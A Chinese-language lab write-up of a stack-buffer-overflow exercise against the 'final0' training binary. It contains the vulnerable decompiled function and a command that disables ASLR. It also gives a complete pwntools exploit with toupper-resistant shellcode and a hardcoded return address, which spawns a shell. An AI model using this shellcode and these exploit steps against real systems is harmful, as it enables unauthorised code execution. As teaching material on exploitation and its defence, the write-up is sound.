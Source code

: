 # 栈溢出实验5

## 实验概述

### 【目的】
1. 运行final0,反弹得到shell
### 【环境】
Linux
### 【工具】
python，gdb
### 【原理】
缓冲区溢出（buffer overflow），是针对程序设计缺陷，向程序输入缓冲区写入使之溢出的内容（通常是超过缓冲区能保存的最大数据量的数据），从而破坏程序运行、趁著中断之际并获取程序乃至系统的控制权。
## 实验步骤

### 【步骤】
#### final0
通过binwalk查看，是32位程序
```
$ binwalk final0

DECIMAL       HEXADECIMAL     DESCRIPTION
--------------------------------------------------------------------------------
0             0x0             ELF, 32-bit LSB executable, Intel 80386, version 1 (SYSV)

```
用IDA pro打开，定位到关键函数
```
char *get_username()
{
  size_t v0; // eax@7
  char s[512]; // [sp+8h] [bp-210h]@1
  char *v3; // [sp+208h] [bp-10h]@1
  unsigned int i; // [sp+20Ch] [bp-Ch]@5

  memset(s, 0, 0x200u);
  gets(s);
  v3 = strchr(s, 10);
  if ( v3 )
    *v3 = 0;
  v3 = strchr(s, 13);
  if ( v3 )
    *v3 = 0;
  for ( i = 0; ; ++i )
  {
    v0 = strlen(s);
    if ( v0 <= i )
      break;
    s[i] = toupper(s[i]);
  }
  return strdup(s);
}
```
可以看到其中使用了gets()，存在溢出点，ret地址的偏移为0x210+4=532。
需要注意的是，函数中对每个字节都调用了toupper()进行转换，把字符数组中的小写字母转换成大写字母，即常规的shellcode会因为大小写转换而失效。
这里我们使用[shellcode](https://www.exploit-db.com/exploits/13460/)提供的不会因toupper()转换而失效的shellcode。

由于需要定位shellcode的地址，这里仍需关闭地址随机化，并开启core dump。
```
ulimit -c 1024
sudo sh -c "echo 0 > /proc/sys/kernel/randomize_va_space"
```
获取shellcode的地址。
```
$ ulimit -c unlimited
$ sudo sh -c "echo 0 > /proc/sys/kernel/randomize_va_space"
$ python -c "'a'*600" | ./final0 
$ gdb final0 core -q
gdb-peda$ x/10wx $esp-540
0xffffccd4:	0x00000007	0x41414141	0x41414141	0x41414141
0xffffcce4:	0x41414141	0x41414141	0x41414141	0x41414141
0xffffccf4:	0x41414141	0x41414141

```
可以看到地址是0xffffccd8，到这就可以编写脚本了。
```
from pwn import *

io = process('./final0')

shellcode  = "\xeb\x29\x5e\x29\xc9\x89\xf3\x89\x5e\x08\xb1\x07"
shellcode += "\x80\x03\x20\x43\xe0\xfa\x29\xc0\x88\x46\x07\x89\x46\x0c"
shellcode += "\xb0\x0b\x87\xf3\x8d\x4b\x08\x8d\x53\x0c\xcd\x80"
shellcode += "\x29\xc0\x40\xcd\x80\xe8\xd2\xff\xff\xff"
shellcode += "\x0f\x42\x49\x4e\x0f\x53\x48"

payload = shellcode
payload += (532-len(shellcode))*'a'
payload += p32(0xffffccd8)


io.sendline(payload)
io.interactive()
```

```
$ python final0.py 
[+] Starting local process './final0': pid 4535
[*] Switching to interactive mode
$ echo u got it
u got it
$  

```
### 【总结】

本次实验主要在shellcode上发生了改变，可以考虑到在实际的漏洞利用中，shellcode需要根据实际情况做各种调整。
可以发现，要使栈溢出发生，要满足以下条件：

- 程序允许用户输入
- 程序对用户的输入长度不加检查

栈溢出攻击是最为普遍而又危害极大的漏洞，要防御栈溢出攻击，首先要有良好的编码功力，对于用户的输入数据要做严格的长度检查，避免使用危险的函数。